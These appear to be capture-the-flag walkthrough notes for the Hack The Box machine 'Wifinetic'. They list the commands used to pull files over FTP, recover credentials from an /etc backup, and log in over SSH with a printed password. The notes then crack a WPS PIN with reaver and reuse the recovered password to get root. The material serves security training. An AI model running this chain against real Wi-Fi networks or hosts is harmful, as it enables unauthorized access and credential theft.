


---
---

# HTB - Wifinetic

NMAP


- Get all the files:

```bash
mget *

```



- Extract the .tar file - We get the /etc directory:

From the files we get these - which provides us a username and password to login


```bash
ssh netadmin@10.129.229.90

```
**VeRyUniUqWiFIPasswrd1!**




- Doing enumeration - we can see reaver is installed and has the cap_net_raw+ep capability set:
  
```bash
getcap -r / 2>/dev/null

```


```bash
iwconfig

```


- Wireless settings are typically stored in /etc/wpa_supplicant.conf, which is present, but netadmin can’t read it


```bash
iw dev

```


- We can run reaver against the BSSID using mon0:
[https://outpost24.com/blog/wps-cracking-with-reaver/](https://outpost24.com/blog/wps-cracking-with-reaver/)

```bash
reaver -i mon0 -c 1 -b 02:00:00:00:00:00 -vv

```


- Got a password:
**WhatIsRealAnDWhAtIsNot51121!**

- Now we can try and see if that password is used for the root account:
  
```bash
ssh root@192.168.1.1

```


```bash
cat root.txt

```
- Or simply
  
```bash
su -
```


